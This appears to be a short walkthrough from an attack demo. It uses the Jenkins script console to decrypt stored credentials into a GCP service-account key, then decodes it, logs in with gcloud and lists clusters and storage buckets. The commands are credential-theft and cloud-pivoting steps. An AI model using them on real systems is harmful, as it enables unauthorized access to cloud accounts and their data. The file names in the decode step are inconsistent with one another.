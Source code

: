 # Get Cloud Access
Now that we're in Jenkins, we'll look a bit around

## Secrets
There are predefined secrets.
Some maybe used for Terraform
Lets decrypt them

### Get the secret
Open 
```
http://jenkins.test.nevervictimconsult.xyz:8080/script
```
and start following script
```java
println( hudson.util.Secret.decrypt("${ENCRYPTED_PASSPHRASE_OR_PASSWORD}") )
```
where `${ENCRYPTED_PASSPHRASE_OR_PASSWORD}` is the encrypted content of the `<password>` or `<passphrase>` XML element that you are looking for.
And in order to get the password value of `${ENCRYPTED_PASSPHRASE_OR_PASSWORD}` go to credentials, update, in the browser "See source code" and you will get the encrypted password in the data field for password. Then use that function.

What you got is the base64 encoded json string for authenticating to GCP.
Next up: decode it.

### decode
Paste it into Kali

```bash
mkdir -p /root/demotalk/cloudAccess
cd /root/demotalk/cloudAccess
nano encoded.json
```

paste the string into `encrypted.json` and decode it then

```bash
cd /root/demotalk/cloudAccess
cat encode.json | base64 --decode > gcpSa.json
```

### Login to GCP

```bash
cd /root/demotalk/cloudAccess
gcloud auth activate-service-account --key-file=gcpSa.json
gcloud init --console-only
```

* create new configuration
* iamhere
* use jenkins account
* no cloudresourcemanager
* project name thorsten-jakoby-tj-projekt

### Take a look around

```bash
gcloud container clusters list
gcloud storage buckets list
```

Found interesting things: `conduit-database-backup-test`